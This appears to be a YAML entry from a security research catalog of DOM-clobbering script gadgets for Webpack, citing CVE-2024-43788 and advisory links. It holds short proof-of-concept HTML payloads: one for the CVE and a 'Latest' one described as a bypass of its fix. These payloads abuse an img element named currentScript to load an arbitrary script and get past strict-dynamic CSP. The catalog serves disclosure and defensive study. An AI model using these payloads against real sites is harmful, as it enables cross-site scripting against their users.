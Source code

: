 ```yaml
---
description: |
    Webpack is a module bundler. Its main purpose is to bundle JavaScript files for usage in a browser, yet it is also capable of transforming, bundling, or packaging just about any resource or asset.
github: webpack/webpack
gadgets:
  Latest:
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - script-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - description: It is possible to take part of the fix for [CVE-2024-43788](#<5.93.0) which uses the `src=` of the last `<script>` tag of the page to load additionnal modules. As with the CVE, it is mandatory to have the _AutoPublicPathRuntimeModule_ enabled.<br><br>*For this to work, the user input must be placed above the bundle script tag. We then use a trick use table HTML mutation to make it follow down the DOM tree. This ensures that when Webpack loads, our script is already in the DOM and positioned below it, something that normally shouldn't be possible, since the page stops loading while a script is being executed.*
        code: |
          <!-- user input -->
          <img name="currentScript"><table>
          <script src="[current-location]/assets/xss/index.js"></script>

          <div>
          <script nonce="secret" src="/assets/libs/webpack/bundle.js"></script>
          </div>
    links:
      - https://mizu.re/post/heroctf-v6-writeups#underConstruction-gadget-webpack-domclobbering

  ≤5.92.1:
    cve: CVE-2024-43788
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - script-tag
      - name-attr
      - src-attr
      - unsafe-eval-csp
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: It is mandatory to have the _AutoPublicPathRuntimeModule_ enabled.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="/assets/libs/webpack/5.92.1/bundle.js"></script>
    links:
      - https://github.com/webpack/webpack/security/advisories/GHSA-4vvj-4cpr-p986
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

